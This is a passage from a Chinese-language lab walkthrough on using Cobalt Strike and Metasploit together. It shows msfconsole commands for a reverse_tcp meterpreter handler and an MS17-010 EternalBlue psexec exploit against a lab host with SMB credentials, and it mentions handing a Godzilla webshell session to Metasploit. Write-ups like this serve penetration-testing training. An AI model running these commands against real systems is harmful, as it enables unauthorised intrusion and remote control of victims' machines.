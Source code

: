 ## 五、CS 与 MSF 协同渗透  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/veA9QmcJk5mCEM3ulgybYUA23my4Vf8SMlMibyDh2wTWUCGW6ic2YcOYnWNiapkJNmol8Xvia3Wdm7hqYMkxt3QXibQ/640?wx_fmt=png&from=appmsg "")  
  
### （一）MSF 基础配置  
  
  
在msfconsole中进行如下配置：  
  

```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.239.198
set lport 6666
run
```

  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/veA9QmcJk5mCEM3ulgybYUA23my4Vf8S0HS6cleDORzbVcJ4XHicQNB3H79jR5vd6BjtPm8GYXTycGU9ibGUd1lw/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/veA9QmcJk5mCEM3ulgybYUA23my4Vf8S7Pcuj9JJqsDicblicaic9l09OsTF7p5nrJXoMx2xFL5ciawibEdUWuTHNhA/640?wx_fmt=png&from=appmsg "")  
  
### （二）MSF 代理搭建  
  
  
将哥斯拉的 shell 转到 msf 上，利用 msf 搭建代理。  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/veA9QmcJk5mCEM3ulgybYUA23my4Vf8Sm2JHa9AUt207HA0A2TQSqH2pxCic54iciaCTftcr7872BB5Zhmj8O5C5w/640?wx_fmt=png&from=appmsg "")  
  
### （三）永恒之蓝攻击  
  
  
使用 msf 针对ms17-010漏洞进行攻击，配置如下：  
  

```
use exploit/windows/smb/ms17_010_psexec
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.239.198
set LPORT 4444
set RHOST 192.168.52.141
set SMBUser weizi
set SMBPass HONGRISEC@2019
run
```

  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/veA9QmcJk5mCEM3ulgybYUA23my4Vf8SnlicEKzAGHjmgOTSMEmyKhrFnyH3yLTiaJiaj1Gz1qO7qKbJibEqsCzNPA/640?wx_fmt=png&from=appmsg "")  
  
### （四）MSF 与 CS 转换  
  
  
将 msf 会话转到 cs 上，实现 cs 成功上线。  
  